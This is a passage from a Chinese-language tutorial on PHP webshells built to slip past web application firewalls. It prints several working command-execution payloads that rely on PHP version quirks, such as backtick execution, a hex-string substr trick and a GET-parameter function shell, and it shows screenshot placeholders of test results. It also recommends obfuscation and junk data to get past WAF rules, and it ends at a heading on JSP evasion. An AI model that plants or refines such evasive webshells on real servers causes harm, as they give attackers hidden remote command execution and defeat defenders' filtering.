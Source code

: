     
    
     <?php\echo `whoami`;?>

  

####  **5.3 执行命令失败**

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20220416212801.png)

  

####  **7.3 执行命令失败**

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20220416212802.png)  

####  **5.2 成功执行**

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20220416212803.png)

  

##  **3、十六进制字符串**

在php7中不认为是数字，php5则依旧为数字，经过测试 5.3 和5.5可以成功执行命令，5.2和php7无法执行。

  *   *   *   * 

    
    
    <?php$s=substr("aabbccsystem","0x6");$s(whoami)?>

  

####  **7.3 命令执行失败**

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20220416212805.png)  

####  **5.2 命令执行失败**

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20220416212806.png)  

###  **5.3 命令执行成功**

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20220416212807.png)  
除此之外，还有很多种利用版本差异性来bypass一些没有对所有版本进行检测更新的所谓的"先进waf"。  
当然，对于我们可以结合垃圾数据，变形混淆，以及大量特殊字符和注释的方式来构造更多的payload,毕竟每家的waf规则不同，配置也不同，与一些传输层面的bypass进行结合产生的可能性就会非常多样。  
 **例如：**

7.0版本的??特性，如果版本为5.x的话就会报错，可以结合一些其他的方式吧

  *   *   *   * 

    
    
    <?php$a = $_GET['function'] ?? 'whoami';$b = $_GET['cmd'] ?? 'whoami';$a(null.(null.$b));

  

 **0x02 jsp的免杀**

